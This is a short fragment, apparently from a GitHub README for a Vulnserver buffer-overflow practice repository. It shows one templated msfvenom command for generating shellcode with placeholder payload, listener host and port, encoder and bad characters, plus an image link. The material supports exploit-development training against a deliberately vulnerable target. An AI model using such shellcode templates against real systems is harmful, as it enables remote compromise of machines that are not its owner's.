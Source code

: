 # How to create shellcode ?
> msfvenom -p [payload] LHOST=[IP Address] LPORT=[PORT] -e [encoder] --platform [platform] -b [badchars] -f [Format output ( C ) ]
![sck1ddie](https://raw.githubusercontent.com/sck1ddie/Vulnserver-Buffer-Overflow/main/bofsck1ddie.png)
